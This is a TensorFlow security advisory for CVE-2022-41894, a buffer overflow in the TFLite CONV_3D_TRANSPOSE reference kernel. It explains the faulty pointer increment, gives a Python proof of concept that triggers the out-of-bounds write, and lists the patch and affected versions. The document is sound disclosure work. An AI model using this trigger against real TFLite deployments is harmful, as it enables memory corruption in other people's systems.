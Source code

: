 ## TFSA-2022-156: Buffer overflow in `CONV_3D_TRANSPOSE` on TFLite

### CVE Number
CVE-2022-41894

### Impact
The reference kernel of the [`CONV_3D_TRANSPOSE`](https://github.com/tensorflow/tensorflow/blob/091e63f0ea33def7ecad661a5ac01dcafbafa90b/tensorflow/lite/kernels/internal/reference/conv3d_transpose.h#L121) TensorFlow Lite operator wrongly increments the data_ptr when adding the bias to the result.

Instead of `data_ptr += num_channels;` it should be `data_ptr += output_num_channels;` as if the number of input channels is different than the number of output channels, the wrong result will be returned and a buffer overflow will occur if num_channels > output_num_channels.

An attacker can craft a model with a specific number of input channels in a way similar to the attached example script. It is then possible to write specific values through the bias of the layer outside the bounds of the buffer. This attack only works if the reference kernel resolver is used in the interpreter (i.e. `experimental_op_resolver_type=tf.lite.experimental.OpResolverType.BUILTIN_REF` is used).
```python
import tensorflow as tf
model = tf.keras.Sequential(
    [
        tf.keras.layers.InputLayer(input_shape=(2, 2, 2, 1024), batch_size=1),
        tf.keras.layers.Conv3DTranspose(
            filters=8,
            kernel_size=(2, 2, 2),
            padding="same",
            data_format="channels_last",
        ),
    ]
)

converter = tf.lite.TFLiteConverter.from_keras_model(model)
tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(
    model_content=tflite_model,
    experimental_op_resolver_type=tf.lite.experimental.OpResolverType.BUILTIN_REF,
)

interpreter.allocate_tensors()
interpreter.set_tensor(
    interpreter.get_input_details()[0]["index"], tf.zeros(shape=[1, 2, 2, 2, 1024])
)
interpreter.invoke()
```

### Patches
We have patched the issue in GitHub commit [72c0bdcb25305b0b36842d746cc61d72658d2941](https://github.com/tensorflow/tensorflow/commit/72c0bdcb25305b0b36842d746cc61d72658d2941).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Thibaut Goetghebuer-Planchon, Arm Ltd.
